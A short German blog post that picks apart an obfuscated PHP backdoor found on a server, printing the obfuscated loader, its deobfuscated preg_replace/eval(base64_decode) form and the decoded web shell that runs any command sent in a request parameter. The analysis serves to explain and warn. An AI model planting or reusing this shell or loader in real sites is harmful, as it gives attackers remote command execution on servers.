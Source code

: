 Ominoeser MD5 Hash
##################
:date: 2013-01-18 16:29
:tags: de, hack, php, obfuscation

Ich haette es fast uebersehen. Letztens dachte ich mir, dass ich mir nochmal die 
ominoese Datei vornehme, die ein ScriptKiddy auf einem Server hinterlassen hat.
Ein bisschen aufgeraeumt sieht es so aus:

 .. code-block :: php

    <?php       
    $VbEgX="\x65va\x6c\x28\x62\x61se6\x34_de\x63\x6f\x64\x65\x28'"; 
    $fJJe="QH\1165c3RlbS\x67kX1JFUV\126FU1\122bYV0pO2RpZShtZD\x55oMSkpOw=\075'))";  
    $qcBGZTFw="p\x72eg_\x72\x65p\x6cac\x65";  //preg_replace
    $ASwXqM="/\x2e\x2a/\x65";
    $qcBGZTFw($ASwXqM, $VbEgX.$fJJe, "");  

Wer Mag? Eigentlich ist es ziemlich einfach.
    
 .. code-block :: php

    <?php   
    $VbEgX="eval(base64_decode('";     
    $fJJe="QHN5c3RlbSgkX1JFUVVFU1RbYV0pO2RpZShtZDUoMSkpOw=='))";
    $qcBGZTFw="preg_replace";
    $ASwXqM="/.*/e";
    preg_replace("/.*/e",eval(base64_decode('QHN5c3RlbSgkX1JFUVVFU1RbYV0pO2RpZShtZDUoMSkpOw==')),"");

Und dreinmal duerft ihr raten was in dem base64 drinsteht

 .. code-block :: php

    <?php
    @system($_REQUEST[a]);die(md5(1));

Das erklaert auch die $_POST Requests auf die Datei.
Traut dem ganzen einfach NIE!

so long

